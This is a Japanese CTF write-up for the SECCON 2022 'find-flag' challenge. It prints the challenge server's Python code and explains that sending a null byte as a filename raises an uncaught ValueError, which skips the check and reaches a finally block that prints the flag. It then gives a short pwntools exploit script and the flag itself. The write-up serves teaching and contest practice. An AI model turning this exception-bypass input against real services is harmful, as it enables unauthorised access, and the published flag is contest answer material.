 ```yaml
---
layout: post
title: find-flag
parent: SECCON 2022
tags: [MISC]
grand_parent: CTF Write-ups
nav_order: 2
lang: jp
lang-ref: SECCON 2022 - find - flag
hidden: true
---
```


# Find-Flag-jp

```python
#server.py
#!/usr/bin/env python3.9
import os

FLAG = os.getenv("FLAG", "FAKECON{*** REDUCTED ***}").encode()
print(len(FLAG))
def check():
    try:
        filename = input("filename: ")
        if open(filename, "rb").read(len(FLAG)) == FLAG:
            return True
    except FileNotFoundError:
        print("[-] missing")
    except IsADirectoryError:
        print("[-] seems wrong")
    except PermissionError:
        print("[-] not mine")
    except OSError:
        print("[-] hurting my eyes")
    except KeyboardInterrupt:
        print("[-] gone")
    return False

if __name__ == '__main__':
    try:
        check = check()
    except:
        print("[-] something went wrong")
        exit(1)
    finally:
        if check:
            print("[+] congrats!")
            print(FLAG.decode())
```

```python
if __name__ == '__main__':
    try:
        check = check()
    except:
        print("[-] something went wrong")
        exit(1)
    finally:
        if check:
            print("[+] congrats!")
            print(FLAG.decode())
```

上記のコードで注目すべき点は、FLAG出力がfinallyの中にあるということだ。

すなわち、check()関数で例外を発生させてcheck過程を迂回できるのだ**。**

```python
except FileNotFoundError:
        print("[-] missing")
    except IsADirectoryError:
        print("[-] seems wrong")
    except PermissionError:
        print("[-] not mine")
		except OSError:
        print("[-] hurting my eyes")
```

check()関数で例外処理されたERRORリストである。

該当例外ではない他の例外を起こせば迂回が可能だ。

私はValueError:embedded null byteを使って迂回を進めた

```c
//local_setup.c
//gcc -o local_setup local_setup.c

#include <stdlib.h>

void main()
{
    system("/usr/bin/python3 server.py");
}
```

上記はDockerを実行せずにローカルで回すためにcコードを使用してコードを実行させる過程だ。

```python
#exploit.py
#remote exploit

"""from pwn import *

payload = b'\x00'
r = remote('find-flag.seccon.games', 10042)
r.recvuntil(b"filename: ")
r.sendline(payload)
print(r.recv())"""

#local exploit

from pwn import *

p = process('./local_setup')
payload = b'\x00'

p.recvuntil(b'filename: ')
p.sendline(payload)
print(p.recv())F
```

![image](/assets/images/SECCON2022/Find-Flag/find-flag.png)

FLAG: SECCON{exit_1n_Pyth0n_d0es_n0t_c4ll_exit_sysc4ll}